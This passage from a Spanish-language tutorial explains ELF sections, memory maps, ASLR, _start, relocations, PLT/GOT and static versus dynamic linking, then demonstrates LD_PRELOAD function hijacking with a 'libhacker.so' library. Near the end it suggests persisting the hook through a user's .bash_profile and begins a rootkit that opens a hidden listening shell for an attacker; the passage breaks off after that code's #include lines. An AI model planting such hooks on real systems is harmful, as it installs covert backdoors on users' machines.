[12] .plt            PROGBITS    AX
[13] .text           PROGBITS    AX
[15] .rodata         PROGBITS    A
[20] .dynamic        DYNAMIC     WA
[21] .got            PROGBITS    WA
[22] .data           PROGBITS    WA
[23] .bss            NOBITS      WA
[25] .symtab         SYMTAB
[26] .strtab         STRTAB
...
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), p (processor specific)
```

Un detalle que suele pasar desapercibido en este output son los Flags, pero en realidad son fundamentales para entender cómo se utiliza cada sección. Estos flags le indican al sistema qué se puede hacer con esa región de memoria una vez cargada.

Por ejemplo, una sección marcada con A (alloc) significa que será cargada en memoria durante la ejecución. Si además tiene X (execute), indica que contiene código ejecutable, como es el caso de .text. Por otro lado, el flag W (write) señala que la memoria puede ser modificada en tiempo de ejecución, algo típico en secciones como .data o .bss.

Esto no es un detalle menor: estos permisos terminan reflejándose directamente en cómo el kernel mapea cada segmento en memoria, aplicando protecciones como lectura, escritura o ejecución. En otras palabras, los flags no solo describen el contenido, sino también cómo ese contenido puede ser utilizado una vez que el programa está corriendo.

**De archivo a proceso: cómo vive en memoria**

Hay algo importante: no toda la memoria de un proceso viene del ELF. Cuando el programa se ejecuta, el sistema también crea otras regiones fundamentales, hasta ahora seguimos dentro del binario en disco. Pero cuando ese binario se ejecuta, el panorama cambia.

* **Stack:** donde viven las variables locales y el contexto de las funciones (calls, returns, etc.)  
* **Heap:** memoria dinámica que el programa solicita en tiempo de ejecución (malloc, new, etc.)

A diferencia de las secciones del ELF, estas regiones no están “dentro del archivo”, sino que son creadas por el sistema al momento de ejecutar el programa. Hasta ahora vimos el ELF como un archivo en disco, con su estructura bien definida en headers y secciones. Pero el momento clave ocurre cuando ese archivo deja de ser solo bytes y pasa a convertirse en un proceso en memoria.

El kernel no copia el archivo completo, sino que utiliza los Program Headers para decidir qué partes cargar, en qué direcciones y con qué permisos. En ese proceso, las secciones del ELF se reinterpretan como segmentos de memoria. Es decir, las secciones describen cómo está organizado el programa en el archivo, mientras que los segmentos definen cómo ese programa se materializa en memoria.

Por lo cual recordemos un concepto clave: 

**Las secciones explican cómo el programa existe en disco.**  
**Los segmentos definen cómo vive la memoria.**

Entonces podemos decir que siempre que hablamos del binario, sin ejecutar almacenado en nuestro disco, estamos hablando de secciones, y al ejecutarlo estas se transforman en segmentos.   
  
Este diagrama muestra cómo un archivo ELF en disco se transforma en un proceso en memoria al momento de ejecutarse. En la parte inferior aparecen las secciones del binario, como .text, .rodata, .data y .bss, que representan el programa tal como fue compilado. Estas secciones no se cargan de forma aislada, sino que el kernel las agrupa y mapea en memoria a través de los segmentos que vimos anteriormente.

A medida que subimos en el espacio de direcciones, aparecen otras regiones que no provienen directamente del ELF, como las librerías compartidas, que son cargadas dinámicamente (por ejemplo, `libc` y el dynamic linker). Por encima de ellas se encuentra el heap, que crece hacia direcciones de memoria más altas a medida que el programa solicita memoria dinámica, y finalmente el stack, que crece en sentido contrario y almacena el contexto de ejecución de las funciones.

En conjunto, el diagrama muestra que un proceso no es simplemente el binario que compilamos, sino una composición de múltiples piezas: el código propio, las librerías que se incorporan en tiempo de ejecución y las estructuras dinámicas que el sistema crea para que todo funcione correctamente.

Todo esto no es solo una abstracción. Podemos observar directamente cómo el kernel materializa este layout inspeccionando el espacio de direcciones de un proceso en ejecución a través de `/proc/<PID>/maps`.

Si analizamos nuestro propio proceso:

```text
%: cat /proc/$$/maps
c2e54ddf0000-c2e54df54000 r-xp 00000000 fc:00 262179   /usr/bin/bash
c2e54df6b000-c2e54df70000 r--p 0016b000 fc:00 262179   /usr/bin/bash
c2e54df70000-c2e54df79000 rw-p 00170000 fc:00 262179   /usr/bin/bash
c2e54df79000-c2e54df84000 rw-p 00000000 00:00 0
c2e55a36f000-c2e55a3d2000 rw-p 00000000 00:00 0        [heap]
ecbf78a00000-ecbf78ceb000 r--p 00000000 fc:00 263150   /usr/lib/locale/locale-archive
ecbf78d60000-ecbf78efa000 r-xp 00000000 fc:00 263119   /usr/lib/aarch64-linux-gnu/libc.so.6
ecbf78faa000-ecbf78fac000 r--p 00000000 00:00 0        [vvar]
ecbf78fac000-ecbf78fad000 r-xp 00000000 00:00 0        [vdso]
ecbf78fad000-ecbf78faf000 r--p 0002e000 fc:00 263006   /usr/lib/aarch64-linux-gnu/ld-linux.so.1
ffffe14e3000-ffffe1504000 rw-p 00000000 00:00 0        [stack]
```

El primer campo indica el rango de direcciones virtuales, mientras que el segundo muestra los permisos de la región. Estos permisos siguen el modelo clásico de Unix:

* **`r (read)`**: la región puede ser leída  
* **`w (write)`**: la región puede ser modificada  
* **`x (execute)`**: la región contiene código ejecutable  
* **`p (private)`**: el mapeo es privado (*copy-on-write*)

Por ejemplo, una región marcada como `r-xp` corresponde típicamente a código ejecutable (como el binario o la `libc`), mientras que `rw-p` suele representar memoria modificable, como el heap o el stack.

Un detalle interesante es que estas direcciones no son fijas. Si ejecutamos el programa varias veces, vamos a notar que cambian. Esto se debe a un mecanismo de seguridad llamado **ASLR** (*Address Space Layout Randomization*), que introduce aleatoriedad en el layout de memoria del proceso para dificultar la explotación de vulnerabilidades.

El comportamiento de ASLR puede ajustarse mediante el parámetro `kernel.randomize_va_space`. En sistemas modernos suele estar configurado en `2`, lo que habilita la aleatorización completa del espacio de direcciones del proceso.

```bash
%: sysctl kernel.randomize_va_space
kernel.randomize_va_space = 2 
```

# **El verdadero inicio: \_start**

Hasta ahora entendimos cómo un binario se organiza en disco, cómo el kernel lo carga en memoria y cómo intervienen componentes como el dynamic linker y las librerías dinámicas.   
Pero todavía falta responder una última pregunta: ¿dónde empieza realmente la ejecución de un programa?: Si volvemos al ELF header, hay un campo que no analizamos en detalle:

```bash
Entry point address: 0x640
```

A primera vista, podríamos pensar que ese punto corresponde a main, pero no es así.

Cuando el kernel termina de cargar el binario (y en caso de existir, el dynamic linker), transfiere el control a esta dirección de entrada. Ese punto suele corresponder a una función especial llamada \_start, que es generada por el compilador y forma parte del runtime del programa.

Es \_start quien se encarga de preparar el entorno inicial como el stack, el heap, los argumentos (argc, argv) y eventualmente llamar a la función main que definimos en nuestro ./hello\_world.c

Para entender qué ocurre realmente en el entry point, necesitamos bajar un nivel más y mirar directamente el código máquina. Para eso vamos a usar otra herramienta fundamental: objdump.

**`objdump`** es una utilidad que permite inspeccionar binarios, y una de sus funciones más útiles es poder desensamblarlos, es decir, traducir instrucciones de máquina a assembly legible por humanos.  
El flag `-d` indica que queremos desensamblar las secciones ejecutables del binario (principalmente .text). El resultado es una representación en assembly de lo que realmente se va a ejecutar:

```bash
%: objdump -d ./hello_world
```

Si queremos ser más específicos podemos ir directamente a la sección `_start`:

```text
%: objdump -d --disassemble=_start ./hello_world

Disassembly of section .text:

0000000000000640 <_start>:
 640:	d503201f 	nop
 644:	d280001d 	mov	x29, #0x0                   	// #0
 648:	d280001e 	mov	x30, #0x0                   	// #0
 64c:	aa0003e5 	mov	x5, x0
 650:	f94003e1 	ldr	x1, [sp]
 654:	910023e2 	add	x2, sp, #0x8
 658:	910003e6 	mov	x6, sp
 65c:	f00000e0 	adrp	x0, 1f000 <__FRAME_END__+0x1e768>
 660:	f947f800 	ldr	x0, [x0, #4080]
 664:	d2800003 	mov	x3, #0x0                   	// #0
 668:	d2800004 	mov	x4, #0x0                   	// #0
 66c:	97ffffe1 	bl	5f0 <__libc_start_main@plt>
 670:	97ffffec 	bl	620 <abort@plt>
```

Al inspeccionar el binario, además de \_start, es posible que aparezca otra sección relacionada con la inicialización: .init. A primera vista pueden parecer similares, pero cumplen roles distintos.

El símbolo \_start es el verdadero entry point del programa. Es la primera instrucción que se ejecuta cuando el kernel (o el dynamic linker) transfiere el control al binario. Su responsabilidad es preparar el entorno inicial y eventualmente invocar a main.

Si miramos el código desensamblado, vemos que al comienzo se inicializan registros clave asociados al stack frame, como el frame pointer (x29) y el link register (x30), dejando el entorno en un estado consistente antes de continuar.

Pero, ¿qué es exactamente un stack frame?:  
Es la porción del stack que pertenece a una función en ejecución. En él se almacenan datos como variables locales, argumentos y la dirección de retorno. Cada vez que una función es llamada, se crea un nuevo stack frame, y cuando termina, ese espacio se libera. Luego aparecen instrucciones como:

```bash
ldr x1, [sp]
add x2, sp, #0x8
```

Acá entra en juego un registro clave: sp, el Stack Pointer. Este registro apunta al tope del stack, es decir, a la región de memoria donde se almacenan datos temporales como argumentos, direcciones de retorno y variables locales. Cuando el kernel transfiere el control al programa, el stack ya viene inicializado con cierta información. En este caso:

```bash
ldr x1, [sp] carga en x1 el valor de argc
add x2, sp, #0x8 calcula la dirección de argv
```

Es decir, \_start está extrayendo los argumentos del programa directamente desde el stack.  
El stack sigue una lógica **LIFO** (*Last-In, First-Out*): el último valor que se agrega es el primero en salir. Una analogía clásica es una pila de platos: se agregan arriba y se retiran también desde arriba.

Tal como dijimos anteriormente \_start no ejecuta directamente nuestro código. Su objetivo principal es delegar esa responsabilidad en otra función clave del runtime: \_\_libc\_start\_main. Si volvemos al desensamblado, vemos esta instrucción:

```bash
bl __libc_start_main@plt
```

Esta llamada transfiere el control a `__libc_start_main`, una función de la `libc` encargada de continuar la ejecución del programa. A partir de este punto, la `libc` (o `glibc` en GNU) toma el control: inicializa el entorno necesario y finalmente invoca a la función `main` de nuestro programa. Pero hay un detalle clave: como nuestro binario está linkeado dinámicamente, esa llamada no es directa.

## **Relocations: cuando las direcciones todavía no existen**

Hasta ahora vimos cómo el sistema puede reconocer un binario ELF, mapear sus segmentos en memoria y comenzar su ejecución. También vimos que, en muchos casos, ese binario no está completamente “cerrado”: depende de librerías externas y de símbolos que no están definidos dentro del propio archivo. Esto nos deja frente a una pregunta bastante incómoda pero inevitable: ¿cómo puede ejecutarse un programa si muchas de las direcciones que necesita simplemente no existen todavía?

La respuesta está en uno de los mecanismos más importantes (y muchas veces invisibles) del formato ELF: las relocations.

Cuando compilamos un programa, el compilador y el linker hacen todo lo posible por resolver direcciones. Sin embargo, hay casos donde esto no es posible. Si el programa utiliza librerías dinámicas, como `libc`, el compilador sabe que se va a necesitar una función como `printf`, pero no tiene forma de saber en qué dirección exacta va a vivir esa función en memoria. Esa decisión ocurre mucho más tarde, en tiempo de ejecución, cuando el sistema operativo carga tanto el binario como sus dependencias.

Esto significa que el ejecutable se construye con “huecos” conceptuales. Lugares donde debería haber una dirección válida, pero todavía no la hay. En lugar de fallar, el formato ELF adopta una estrategia mucho más interesante: deja instrucciones pendientes. Marca explícitamente todos los puntos donde será necesario intervenir más adelante y delega esa responsabilidad al loader.

Esas instrucciones pendientes son las relocations.

Si inspeccionamos un binario con `readelf -r`, lo que encontramos no es otra cosa que una lista de tareas. Cada entrada indica un offset en memoria que deberá ser modificado, el tipo de operación que hay que realizar y el símbolo que se necesita resolver. No hay magia: el archivo está diciendo, de forma bastante directa, “cuando cargues esto, vas a tener que venir acá y escribir la dirección real de este símbolo”.

```text
%: readelf -r ./hello_world

Relocation section '.rela.dyn' at offset 0x480 contains 8 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
00000001fd90  000000000403 R_AARCH64_RELATIV                    750
000000020008  000000000403 R_AARCH64_RELATIV                  20008
00000001ffd8  000400000401 R_AARCH64_GLOB_DA 0000000000000000 _ITM_deregisterTM[...] + 0
00000001ffe0  000500000401 R_AARCH64_GLOB_DA 0000000000000000 __cxa_finalize@GLIBC_2.17 + 0
00000001ffe8  000600000401 R_AARCH64_GLOB_DA 0000000000000000 __gmon_start__ + 0

Relocation section '.rela.plt' at offset 0x540 contains 5 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
00000001ffa8  000300000402 R_AARCH64_JUMP_SL 0000000000000000 __libc_start_main@GLIBC_2.34 + 0
00000001ffb0  000500000402 R_AARCH64_JUMP_SL 0000000000000000 __cxa_finalize@GLIBC_2.17 + 0
00000001ffb8  000600000402 R_AARCH64_JUMP_SL 0000000000000000 __gmon_start__ + 0
00000001ffc8  000800000402 R_AARCH64_JUMP_SL 0000000000000000 puts@GLIBC_2.17 + 0
```

A primera vista el output puede parecer bastante críptico, pero todas las entradas siguen una misma lógica. Cada fila indica un lugar en memoria (`Offset`) que deberá ser modificado, el tipo de operación que se aplicará y, en algunos casos, el símbolo que necesita resolverse.

Por ejemplo, las entradas de tipo `R_AARCH64_JUMP_SLOT` (como la asociada a `puts`) corresponden a funciones externas. En estos casos, el dynamic linker deberá encontrar la dirección real de la función dentro de `libc` y escribirla en la ubicación indicada. A partir de ese momento, las llamadas a esa función podrán resolverse correctamente.

En cambio, las entradas `R_AARCH64_RELATIVE` no dependen de símbolos externos, sino que ajustan direcciones relativas en función de dónde fue cargado el binario en memoria. Esto es especialmente importante en presencia de ASLR, donde las direcciones cambian en cada ejecución.

En este punto entra en juego el dynamic linker. Antes de que nuestro programa empiece a ejecutar su `main`, este componente ya estuvo trabajando. Carga las librerías necesarias, construye una tabla de símbolos en memoria y luego recorre cada una de las relocations del binario. Para cada entrada, busca la dirección real del símbolo correspondiente y la escribe en el lugar indicado. Ese proceso de “parcheo” es lo que transforma un binario parcialmente definido en algo completamente ejecutable.

Este mecanismo no ocurre en el vacío, sino que está profundamente conectado con otras estructuras que veremos a cotinuacion, la GOT y la PLT. En muchos casos, las relocations no escriben directamente en el código, sino en entradas de la GOT. La PLT, a su vez, utiliza esas entradas como puntos de salto hacia funciones reales. Es un sistema diseñado para permitir flexibilidad: las direcciones pueden cambiar, pero el programa sigue funcionando porque sabe dónde buscarlas indirectamente.

Esto también explica por qué conceptos como ASLR no rompen todo. Si las direcciones fueran fijas, cualquier aleatorización de memoria haría que el programa deje de funcionar. Pero como el ELF ya está preparado para corregir direcciones en tiempo de carga, puede adaptarse dinámicamente a cada ejecución. Las relocations no son un detalle de implementación: son la razón por la cual todo esto es posible.

Si lo pensamos en términos simples, antes de aplicar relocations el programa contiene referencias incompletas. Después de que el dynamic linker hace su trabajo, esas referencias se convierten en direcciones reales, listas para ser ejecutadas. Es el momento en el que el binario deja de ser una plantilla y pasa a ser un proceso vivo en memoria.

Cuando vemos en el desensamblado algo como `__libc_start_main@plt`, lo que realmente está ocurriendo es que la ejecución pasa por una capa intermedia diseñada para el linking dinámico: la **PLT** (*Procedure Linkage Table*) y la **GOT** (*Global Offset Table*).

## **PLT y GOT**

La PLT puede pensarse como un conjunto de pequeños trampolines, que en apariencia no hacen nada. Cada entrada representa una función externa y contiene el código necesario para redirigir la ejecución. Sin embargo, la PLT no conoce la dirección real de la función; esa información vive en la GOT.

La GOT es una tabla en memoria que almacena direcciones reales de funciones y símbolos. En términos simples: la PLT define cómo saltar, la GOT define a dónde saltar. La GOT no es estática: es modificada en el tiempo de ejecución.

### Lazy binding

Ahora bien, estas direcciones no siempre están disponibles desde el inicio y aparece un nuevo concepto, el **lazy binding**. Cuando el programa se ejecuta por primera vez, las entradas de la GOT no apuntan todavía a la función real en la `libc`. En su lugar, apuntan a un resolver del dynamic linker.   
Entonces, la primera vez que se invoca una función como `__libc_start_main`, la ejecución pasa por la PLT, que consulta la GOT, y al no encontrar la dirección final, termina delegando en éste resolver.  
El dynamic linker resuelve el símbolo, encuentra la dirección real de la función en memoria y actualiza la entrada correspondiente en la GOT.  
A partir de ese momento, la situación cambia: la GOT ya contiene la dirección correcta, por lo que las siguientes llamadas no necesitan volver a resolver nada. La PLT simplemente lee la dirección desde la GOT y salta directamente a la función.

En otras palabras, la primera llamada paga el costo de resolución; las siguientes son directas. Este mecanismo evita resolver todas las dependencias al inicio del programa y permite hacerlo de forma incremental, solo cuando realmente se necesitan, optimizando así el tiempo de arranque.

Podemos imprimir el contenido de nuestra PLT con objdump: 

```text
%: objdump -d -j .plt ./hello_world
./hello_world:     file format elf64-littleaarch64

Disassembly of section .plt:
00000000000005d0 <.plt>:
 5d0:	a9bf7bf0 	stp	x16, x30, [sp, #-16]!
 5d4:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 5d8:	f947d211 	ldr	x17, [x16, #4000]
 5dc:	913e8210 	add	x16, x16, #0xfa0
 5e0:	d61f0220 	br	x17
 5e4:	d503201f 	nop
 5e8:	d503201f 	nop
 5ec:	d503201f 	nop

00000000000005f0 <__libc_start_main@plt>:
 5f0:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 5f4:	f947d611 	ldr	x17, [x16, #4008]
 5f8:	913ea210 	add	x16, x16, #0xfa8
 5fc:	d61f0220 	br	x17

0000000000000600 <__cxa_finalize@plt>:
 600:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 604:	f947da11 	ldr	x17, [x16, #4016]
 608:	913ec210 	add	x16, x16, #0xfb0
 60c:	d61f0220 	br	x17

0000000000000610 <__gmon_start__@plt>:
 610:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 614:	f947de11 	ldr	x17, [x16, #4024]
 618:	913ee210 	add	x16, x16, #0xfb8
 61c:	d61f0220 	br	x17

0000000000000620 <abort@plt>:
 620:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 624:	f947e211 	ldr	x17, [x16, #4032]
 628:	913f0210 	add	x16, x16, #0xfc0
 62c:	d61f0220 	br	x17

0000000000000630 <puts@plt>:
 630:	f00000f0 	adrp	x16, 1f000 <__FRAME_END__+0x1e768>
 634:	f947e611 	ldr	x17, [x16, #4040]
 638:	913f2210 	add	x16, x16, #0xfc8
 63c:	d61f0220 	br	x17
```

Acá ocurre lo que describimos antes: la entrada de la PLT carga una dirección desde la GOT y salta hacia ella. Esa dirección será inicialmente el resolver del dynamic linker, y luego, una vez resuelta, apuntará directamente a la implementación real en la `libc`. También podemos hacer lo mismo con la GOT:

```text
%: objdump -s -j .got ./hello_world

./hello_world:     file format elf64-littleaarch64

Contents of section .got:
 1ff90 00000000 00000000 00000000 00000000  ................
 1ffa0 00000000 00000000 d0050000 00000000  ................
 1ffb0 d0050000 00000000 d0050000 00000000  ................
 1ffc0 d0050000 00000000 d0050000 00000000  ................
 1ffd0 a0fd0100 00000000 00000000 00000000  ................
 1ffe0 00000000 00000000 00000000 00000000  ................
 1fff0 58070000 00000000 00000000 00000000  X...............
```

A primera vista, esto puede parecer simplemente una serie de números sin sentido. Pero en realidad, cada uno de estos valores representa direcciones en la memoria. La GOT no almacena código, sino punteros. Es una tabla de direcciones que el programa utiliza para resolver funciones y símbolos en tiempo de ejecución.

En el contexto del linking dinámico, cada entrada de la GOT corresponde a una función externa. Inicialmente, muchas de estas direcciones no apuntan a la función real, sino a un resolver del dynamic linker.

Esto significa que, cuando el programa se ejecuta por primera vez y se invoca una función de una biblioteca externa, la PLT consulta la GOT y encuentra una dirección intermedia. Esa dirección redirige la ejecución hacia el dynamic linker, que se encarga de resolver la función en la `libc`.  
A partir de ese momento, la misma entrada ya no apunta al resolver, sino directamente a la función en la `libc`, evitando cualquier costo adicional en llamadas posteriores.  
<p align="center">

</p>

Pero esto no es algo que ocurra una sola vez ni que esté limitado a `__libc_start_main`. Cada vez que nuestro programa invoca una función externa (como `printf`) el flujo vuelve a pasar por la PLT.  
Podemos ver esto inspeccionando nuestro propio código. Si desensamblamos nuestra función `main`, vamos a encontrar llamadas que no apuntan directamente a la `libc`, sino a la PLT:

```text
%: objdump -d --disassemble=main ./hello_world
./hello_world:     file format elf64-littleaarch64

Disassembly of section .init:

Disassembly of section .plt:

Disassembly of section .text:

0000000000000758 <main>:
 758:	a9bf7bfd 	stp	x29, x30, [sp, #-16]!
 75c:	910003fd 	mov	x29, sp
 760:	90000000 	adrp	x0, 0 <__abi_tag-0x278>
 764:	911e6000 	add	x0, x0, #0x798
 768:	97ffffb2 	bl	630 <puts@plt> ←- Va a la PLT
 76c:	52800000 	mov	w0, #0x0                   
 770:	a8c17bfd 	ldp	x29, x30, [sp], #16
 774:	d65f03c0 	ret

Disassembly of section .fini:
```

Tal como podemos ver en el desensamblado de `main`, aparece una llamada a `puts@plt`. Esto significa que la ejecución no va directamente a la función real, sino que pasa primero por la entrada correspondiente en la PLT, que consulta la GOT para obtener la dirección final de `puts`. Si esa dirección aún no está resuelta, se delega en el dynamic linker, que la busca en la `libc`, la resuelve y actualiza la GOT.

Ahora bien, surge una pregunta natural: ¿por qué vemos `puts@plt` en lugar de `printf@plt`, si en el código fuente usamos `printf`?

Esto no es un error ni una transformación arbitraria, sino una optimización del compilador, el compilador, en nuestro caso `gcc` tiene la capacidad de decidir y optimizar nuestro codigo de fuente. La función `puts` es una función de la `libc` que escribe una cadena en la salida estándar y agrega automáticamente un salto de línea. A diferencia de `printf`, no soporta formato: simplemente imprime el string recibido.

En este caso, como estamos pasando un string constante y no utilizamos ningún especificador de formato (`%d, %s`, etc.), el compilador puede reemplazar la llamada a `printf` por puts, que es más simple y eficiente.

Hasta este punto, el control ya pasó por el kernel, el dynamic linker y la `libc`. Todo el entorno está inicializado y las dependencias resueltas. Recién ahora comienza la ejecución de nuestro código. Veamos qué ocurre dentro de `main`. Si volvemos al desensamblado:

```bash
0000000000000758 <main>:
758: a9bf7bfd stp x29, x30, [sp, #-16]!
75c: 910003fd mov x29, sp
760: 90000000 adrp x0, ...
764: 911e6000 add x0, x0, ...
768: 97ffffb2 bl 630 <puts@plt>
76c: 52800000 mov w0, #0x0
770: a8c17bfd ldp x29, x30, [sp], #16
774: d65f03c0 ret
```

Las primeras instrucciones corresponden al *prologue* de la función:

```bash
stp x29, x30, [sp, #-16]!
mov x29, sp
```

Acá se guarda el estado anterior en el stack: `x29` (*frame pointer*) y `x30` (*link register*, que contiene la dirección de retorno). Luego se establece un nuevo stack frame, propio de `main`. Esto es lo que permite que cada función tenga su propio contexto de ejecución, aislado del resto. Luego aparece el cuerpo de la función:

```bash
bl puts@plt
```

Que, como vimos, no es una llamada directa, sino una llamada que pasa por la PLT y eventualmente llega a la `libc`. 

Finalmente, encontramos el *epilogue*:

```bash
ldp x29, x30, [sp], #16
ret
```

Acá se restaura el estado anterior del stack y se retorna el control a la función. 

# **Static vs Dynamic Linking**

Hasta ahora hablamos del dynamic linking como concepto, pero podemos verlo en acción directamente sobre nuestro binario. Si utilizamos el comando `ldd` evidenciamos el comportamiento que veníamos viendo: 

```bash
%: ldd ./hello_world
	linux-vdso.so.1 (0x0000f9230acbf000)
	libc.so.6 => /lib/aarch64-linux-gnu/libc.so.6 (0x0000f9230aa80000)
	/lib/ld-linux-aarch64.so.1 (0x0000f9230ac70000)
```

Obtenemos la lista de librerías dinámicas que el programa necesita para ejecutarse. Entre ellas aparece algo clave: el dynamic linker (`ld-linux`), que es justamente el componente encargado de cargar estas librerías en memoria y resolver los símbolos que vimos anteriormente a través de la PLT y la GOT.

Esto conecta directamente con el segmento `INTERP` que vimos en el ELF: ahí es donde el binario declara qué intérprete debe encargarse de este proceso.

Tal como venimos viendo, existen dos formas principales de compilar un binario: de **forma estática** y de **forma dinámica**. Si compilamos de forma estática, el binario resultante va a tener un tamaño considerablemente mayor, ya que incluye dentro de sí todas las funciones de la `libc` que utiliza, en lugar de depender de librerías externas en tiempo de ejecución. Esto lo podemos verificar fácilmente con ldd, pero para eso primero tenemos que volver a compilar nuestro `hello_world.c`, pero esta vez de forma estática :

```bash
%: gcc -static ./hello_world.c -o ./hello_world_static
%: ./hello_world_static
Hello world! 

%: ldd ./hello_world_static 
	not a dynamic executable
```

También podemos comprobar que el binario resultante tiene un tamaño mucho mayor:

```bash
%: ls -lh ./hello_world_static ./hello_world
-rwxrwxr-x 1 tty0 tty0  69K Apr  5 07:09 ./hello_world
-rwxrwxr-x 1 tty0 tty0 625K Apr  5 07:07 ./hello_world_static
```

## Símbolos

Si vamos un paso más allá y analizamos los símbolos presentes en cada binario, la diferencia se vuelve aún más evidente, pero antes, aclaremos que es un símbolo: Es la representación de una entidad identificable dentro del programa, como una función o una variable. Durante el proceso de compilación y linking, el linker construye una tabla de símbolos que asocia nombres (por ejemplo, `main`, `printf`, etc.) con direcciones en memoria.

Estos símbolos pueden tener distintos tipos, pero uno de los más relevantes para nuestro análisis es el tipo `T`, que indica que el símbolo corresponde a código ejecutable ubicado en la sección .text. Es decir, cuando utilizamos herramientas como nm, lo que estamos viendo es una representación de las funciones que forman parte del binario, ya sean propias o provenientes de librerías como la `libc`.

```bash
$ nm ./hello_world_static | grep " T " | wc -l
760

$ nm ./hello_world | grep " T "
0000000000000778 T _fini 00000000000005b8 T _init 0000000000000758 T main 0000000000000640 T _start
```

Mientras que el binario dinámico contiene apenas unas pocas funciones (principalmente nuestro propio código), el binario estático incorpora cientos de funciones adicionales, provenientes en su mayoría de la `libc`. Esto explica tanto el incremento en tamaño como el hecho de que, al desensamblarlo, las llamadas a funciones ya no pasan por mecanismos como la PLT, sino que apuntan directamente a direcciones resueltas en tiempo de compilación.

Este comportamiento no es solo teórico. Es la razón por la cual un binario estático puede ejecutarse en imágenes mínimas como scratch en contenedores, mientras que uno dinámico falla si no encuentra sus dependencias en el sistema

### Stiping symbols

Los símbolos no son estrictamente necesarios para la ejecución del programa. De hecho, existen herramientas como `strip` que permiten eliminarlos del binario para reducir su tamaño.

```bash
%: strip ./hello_world
```

Si volvemos a inspeccionar el binario con nm vamos a notar que la mayoría de los símbolos desaparecen:

```bash
%: nm ./hello_world | grep “T” 
nm: ./hello_world_static: no symbols
```

Esto ocurre porque strip elimina la tabla de símbolos (principalmente `.symtab` y `.strtab`), que es utilizada para debugging y análisis, pero no es necesaria en tiempo de ejecución.

Sin embargo, es importante destacar que en binarios dinámicos ciertos símbolos deben permanecer, ya que el dynamic linker los necesita para resolver funciones en tiempo de ejecución (por ejemplo, los presentes en `.dynsym`). Es por eso que, incluso después de aplicar `strip`, un binario dinámico sigue funcionando correctamente.

Todo lo que vimos hasta ahora no es solo teoría. El hecho de que las funciones se resuelvan dinámicamente en tiempo de ejecución no solo simplifica el linking, sino que también abre la puerta a modificar el comportamiento de un programa sin cambiar su código. Esto tiene implicancias tanto prácticas como de seguridad.

# **LD\_PRELOAD: interceptando el runtime**

Una vez que entendemos cómo funciona el dynamic linking, aparece una posibilidad interesante: si el dynamic linker es quien resuelve las funciones en tiempo de ejecución, entonces también podemos influir en ese proceso.

En Linux, esto es posible a través de la variable de entorno **`LD_PRELOAD`**, que permite cargar una librería antes que cualquier otra. Esto significa que podemos “inyectar” nuestras propias implementaciones de funciones y sobreescribir el comportamiento original de la `libc`.

¿Por qué funciona esto? La clave está en el orden de búsqueda de símbolos. Cuando el dynamic linker busca una función (por ejemplo, `printf`), recorre las librerías cargadas en memoria de forma secuencial. Al usar `LD_PRELOAD`, nuestra librería se posiciona al principio de la fila. El linker encuentra nuestra versión de la función primero, la vincula a la GOT (*Global Offset Table*) y da por terminada la búsqueda. El resto de las librerías (incluida la `libc` original) ni siquiera son consultadas para ese símbolo.

Esto nos da un poder enorme: podríamos interceptar una llamada a `write` o `printf` y modificar su comportamiento sin cambiar una sola línea del código fuente del programa. (Por ejemplo, es una técnica muy utilizada para realizar hot-patching de seguridad o incluso para crear rootkits en el espacio de usuario).

Por ejemplo, en nuestro clásico “*Hello world\!*”:

```c
// hello_world.c
#include <stdio.h>

int main() {
    printf("Hello world!\\n");
    return 0;
}
```

Dentro de la función `main()` llamamos a la función de la `libc` `printf` para imprimir `“Hello world!\n”`. Es simple y fácil de entender. Nuestro objetivo ahora consiste en modificar el comportamiento normal de este programa, alterando el orden de resolución de símbolos a nuestro favor.  
Para lograrlo, vamos a crear una shared library propia que contenga una función con la misma firma que el `printf` original. El plan es el siguiente:

1. Escribir el "*wrapper*": Creamos un archivo .c donde definimos nuestra versión de `printf`. Dentro de esta función, podemos hacer lo que queramos (desde cambiar el texto de salida hasta registrar la llamada en un log) antes de, si queremos, pasarle el control a la función real.  
     
2. Compilar como librería compartida: Generamos un archivo .so (*Shared Object*) que el sistema pueda cargar dinámicamente.  
     
3. Inyectar con `LD_PRELOAD`: Al ejecutar nuestro "`Hello world`", definimos la variable de entorno apuntando a nuestra librería.

Al hacer esto, cuando el dynamic linker comience su recorrido buscando el símbolo `printf`, se topará con nuestra implementación antes de llegar siquiera a la `libc.so`. Para el sistema, nuestra función es la oficial, y la ejecutará sin cuestionar nada.Primero que nada vamos a escribir el wrapper: 

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <string.h>

// Interceptamos puts, que es lo que gcc usa realmente por debajo
int puts(const char *str) {
    *// Usamos fputs a stderr para no entrar en un bucle infinito llamando a puts otra vez*
    fputs("[Hacked] El sistema ha sido interceptado...\\n", stderr);
    return 0;
}

// También interceptamos printf por si las dudas
int printf(const char *format, ...) {
    fputs("[Hacked] El sistema ha sido interceptado...\\n", stderr);
    return 0;
}
```

Y lo compilamos como una **Shared Object**:

```bash
%: gcc -fPIC -shared -o libhacker.so hacker.c -ldl
```

Simplemente ejecutamos nuestro binario de "Hello world" (o incluso comandos del sistema como `whoami` o `ls`) anteponiendo la variable de entorno:

```bash
%: LD_PRELOAD=./libhacker.so ./hello_world
[Hacked] El sistema ha sido interceptado...

%: LD_PRELOAD=./libhacker.so whoami
[Hacked] El sistema ha sido interceptado...
```

Si quisiéramos llevar esto al siguiente nivel, no nos limitaríamos a ejecutar el comando manualmente. Podríamos añadir `export` `LD_PRELOAD=~/.libhacker.so` al archivo `.bash_profile` del usuario. A partir de ese momento, cada comando que el usuario ejecute cargará nuestro código.

Para que sea un rootkit efectivo, necesitamos que sea invisible. El siguiente código intercepta `printf` (o `puts`), pero lanza una shell en segundo plano que escucha en un puerto definido por nosotros mismos, permitiendo a un atacante conectarse al sistema remoto. 

```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <dlfcn.h>
#include <sys/socket.h>
